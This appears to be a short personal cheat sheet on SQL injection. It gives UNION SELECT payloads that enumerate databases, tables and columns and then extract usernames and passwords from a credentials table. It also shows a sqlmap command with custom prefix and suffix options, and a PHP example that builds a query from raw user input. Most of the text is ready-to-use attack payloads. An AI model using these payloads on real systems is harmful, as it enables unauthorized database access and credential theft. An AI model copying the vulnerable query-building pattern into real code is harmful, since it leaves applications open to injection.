 ```sql
'OR 1=1 UNION SELECT 1, database(), 3, 4;-- 
```

## Getting all the databases

```sql
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

## Get tables and schemata (database=dev)
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

## Get columns
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
## Get Data

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```


```ad-attention
There is an extra dash (-) at the end, it is to show that there is a space after (--).
```

## Prefix/Suffix

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

This will result in an enclosure of all vector values between the static prefix `%'))` and the suffix `-- -`.  
For example, if the vulnerable code at the target is:

Code: php

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

The vector `UNION ALL SELECT 1,2,VERSION()`, bounded with the prefix `%'))` and the suffix `-- -`, will result in the following (valid) SQL statement at the target:

Code: sql

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```
